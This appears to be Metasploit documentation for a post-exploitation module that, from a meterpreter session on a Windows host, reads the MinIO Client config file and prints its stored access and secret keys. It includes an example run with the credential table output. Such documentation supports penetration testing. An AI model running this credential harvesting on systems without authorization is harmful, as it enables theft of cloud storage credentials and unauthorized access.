 ### Installation Steps

  1. Download the latest installer of MinIO Client (https://dl.min.io/client/mc/release/windows-amd64/mc.exe).
  2. Run `mc alias set myminio https://play.min.io minioadmin minioadmin`.
  3. Run `mc admin info myminio`,check for working.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/minio_client```
  3. If the configuration file is found in the system, it will be printed out

## Options

### CONFIG_PATH

- Specifies the config file path for MinIO Client
- eg. `C:\Users\FireEye\mc\config.json`

## Scenarios

```
meterpreter > run post/windows/gather/credentials/minio_client CONFIG_PATH="C:\Users\FireEye\mc\config.json"

[*] Parsing file C:\Users\FireEye\mc\config.json
MinIO Client Key
================

name     url                             accessKey             secretKey                                 api   path
----     ---                             ---------             ---------                                 ---   ----
gcs      https://storage.googleapis.com  YOUR-ACCESS-KEY-HERE  YOUR-SECRET-KEY-HERE                      S3v2  dns
local    http://localhost:9000                                                                           S3v4  auto
myminio  https://play.min.io             minioadmin            minioadmin                                s3v4  auto
play     https://play.min.io             Q3AM3UQ867SPQQA43P2F  zuf+tfteSlswRu7BJ86wekitnifILbZam1KYY3TG  S3v4  auto
s3       https://s3.amazonaws.com        YOUR-ACCESS-KEY-HERE  YOUR-SECRET-KEY-HERE                      S3v4  dns

[+] Session info stored in: /home/kali-team/.msf4/loot/20221206193240_default_172.16.153.128_host.minio_756923.txt
```
